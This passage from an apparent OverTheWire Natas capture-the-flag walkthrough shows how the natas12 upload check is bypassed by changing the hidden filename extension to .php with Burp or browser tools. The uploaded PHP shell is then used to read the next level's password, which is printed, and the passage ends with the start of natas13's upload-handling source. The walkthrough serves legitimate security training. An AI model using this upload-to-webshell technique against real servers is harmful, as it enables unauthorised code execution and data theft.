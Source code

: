 Now we just need to update the file name

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

to

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

We can do this with Burp or F12 -&gt; network -&gt; headers -&gt; edit and resend

```text
Content-Disposition: form-data; name="filename"

zpfrokehzg.php
```

```text
The file upload/zpfrokehzg.php has been uploaded
```

From here we can simply use the shell to cat the file

```text
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```